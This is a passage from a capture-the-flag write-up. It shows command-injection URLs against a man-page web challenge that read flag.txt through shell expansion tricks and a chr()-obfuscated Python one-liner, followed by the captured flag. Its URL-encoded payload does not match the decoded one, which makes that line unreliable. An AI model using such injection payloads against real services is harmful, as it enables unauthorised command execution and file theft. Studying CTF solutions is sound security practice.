 I can determine that `PWD` is `/app`. So if I do `${PWD%app}`, this will result in just `/`. The final payload is here:

```
http://challenges.oceaniacc.com:5001/$/--html=cat${PWD%app}flag.txt/man
```

URL Encoded:

```
http://challenges.oceaniacc.com:5001/$/--html=cat%20$%7BPWD%7Dflag.txt/man
```

![Final Payload](images/manic/final_payload.png)

At the very top is our lovely flag!

```
oiccflag{i_wish_i_did_this_more_securely_10a287eb}
```

#### Other Command Injection Payloads

I wanted to note a few other payloads that were posted in the discord which I thought were interesting.

##### Python

![Python Payload](images/manic/python_payload.png)

```
http://127.0.0.1:1337/-1/-Hpython%20-c%20'print(open(chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)).read())'%20%23/man
```

Decoded URL:

```
http://127.0.0.1:1337/-1/-Hpython -c 'print(open(chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)).read())' #/man
```
